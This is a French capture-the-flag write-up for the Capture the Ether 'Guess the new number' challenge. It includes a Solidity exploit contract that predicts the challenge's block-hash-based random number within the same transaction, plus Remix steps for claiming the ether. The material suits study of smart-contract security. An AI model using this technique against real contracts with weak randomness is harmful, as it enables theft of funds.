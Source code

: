 # Gess the new number

## Intitulé 

[Url du challenge](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

> The number is now generated on-demand when a guess is made.

## Solution

Maintenant, la réponse est calculée au moment où on appelle la fonction `guess`. Comme la réponse dépend du bloc minée dans lequel la transaction se trouve. Si on trouve la réponse, il faudrait donc que le bloc soit miné immédiatement, ce qui n'est pas possible... sauf si on appelle un autre smart contract !

Ouvrons [Remix](https://remix.ethereum.org/) et créons un smart contract qui vas réaliser notre challenge.

```solidity

contract Exploit {

    // on calcule la réponse et on attaque
    function attack(GuessTheNewNumberChallenge challenge) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));
        challenge.guess.value(1 ether)(answer);
    }

    // pour accepter les eth, sans cette fonction, on aurait un revert en réussissant le challenge
    function() external payable {}

    // pour withdraw
    function withdraw() external {
        msg.sender.transfer(2 ether);
    }
}
```
Dans le même fichier solidity, copier les 2 contrats à la suite (Challenge.sol et l'Exploit). Compiler et lancer la fonction `attack` avec comme argument l'addresse du challenge. Penser à utiliser la fonction `withdraw` pour récupérer vos fonds. Il ne reste qu'à valider le challenge.
